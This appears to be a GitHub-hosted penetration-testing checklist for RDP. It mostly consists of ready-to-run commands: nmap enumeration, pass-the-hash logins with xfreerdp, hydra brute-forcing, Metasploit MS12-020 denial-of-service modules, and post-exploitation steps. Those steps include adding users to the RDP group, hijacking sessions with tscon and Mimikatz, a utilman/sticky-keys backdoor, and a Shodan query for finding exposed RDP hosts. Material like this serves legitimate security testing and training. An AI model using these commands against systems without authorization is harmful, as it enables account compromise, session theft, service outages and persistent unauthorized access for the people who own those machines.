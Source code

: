 # RDP Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating RDP (port 3389), I realistically expect to find:

- [ ] Open access with weak/default credentials
- [ ] NTLM hashes for pass-the-hash attacks
- [ ] Encryption level details for downgrade or MITM attacks
- [ ] Vulnerabilities (e.g., MS12-020 DoS/Exploit)
- [ ] Misconfigurations like admin sessions left open
- [ ] Ability to steal or hijack active sessions
- [ ] Post-exploitation: lateral movement or persistence

---

## ✅ RDP Pentest Checklist

- [ ] **Port Scan & Service Detection**
  - Confirm service, banner, and encryption.
    ```
    nmap -Pn -sV -p3389 <IP>
    nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 <IP>
    ```

- [ ] **Basic RDP Client Connection (Creds/Hash)**
  - Using password:
    ```
    rdesktop -u <username> <IP>
    rdesktop -d <domain> -u <username> -p <password> <IP>
    xfreerdp /u:<username> /p:<password> /v:<IP>
    ```
  - Using NTLM hash:
    ```
    xfreerdp /u:<username> /pth:<hash> /v:<IP>
    xfreerdp /v:10.129.234.51 /dynamic-resolution +clipboard -sec-nla
    ```

- [ ] **Brute-Forcing**
  - **⚠️ Risk: May lock accounts!**
    ```
    hydra -t 4 -V -f -l <username> -P passwords.txt rdp://<IP>
    ```

- [ ] **Check Known Credentials (Impacket)**
    ```
    rdp_check <domain>/<username>:<password>@<IP>
    ```

---

## ✅ Metasploit Modules

- [ ] Enumeration:
    ```
    use auxiliary/scanner/rdp/rdp_scanner
    use auxiliary/scanner/rdp/rdp_enum
    use auxiliary/scanner/rdp/rdp_version
    ```

- [ ] Exploits:
    ```
    use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
    use auxiliary/dos/windows/rdp/ms12_020_check
    ```

---

## ✅ Post-Exploitation

- [ ] **Add User to RDP Group**
    ```powershell
    net localgroup "Remote Desktop Users" <UserLoginName> /add
    ```

- [ ] **Stealing/Riding Sessions with Built-in Tools**
  - **List open sessions:**
    ```
    query user
    ```
  - **Steal session (Admin):**
    ```
    tscon <SESSION_ID> /dest:<SESSION_NAME>
    ```

- [ ] **Run Command as Another User (NetOnly)**
  - Use alternate credentials for network interactions:
    ```
    runas /netonly /user:<DOMAIN>\<USERNAME> "cmd.exe"
    ```

---

## ✅ Advanced Session Hijacking with Mimikatz

- **List Terminal Services Sessions**
    ```
    ts::sessions
    ```
- **Connect to a Session**
    ```
    ts::remote /id:<SESSION_ID>
    ```

---

## ✅ Sticky-Keys & Utilman Backdoor

- **Technique**: Replace utilman.exe with cmd.exe for SYSTEM-level console at RDP login screen.
- **Detection & Cleanup**:
    - Check for replaced binaries.
    - Tool: [Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

---

## ✅ Recommended Tool: AutoRDPwn

- Automated post-exploitation for RDP sessions.
    - Repo: [AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)

---

## ✅ Shodan Dork

- [ ] Find open RDP instances on the Internet.
    ```
    port:3389
    ```

---

## ✅ Resources

- 📚 [HackTricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)
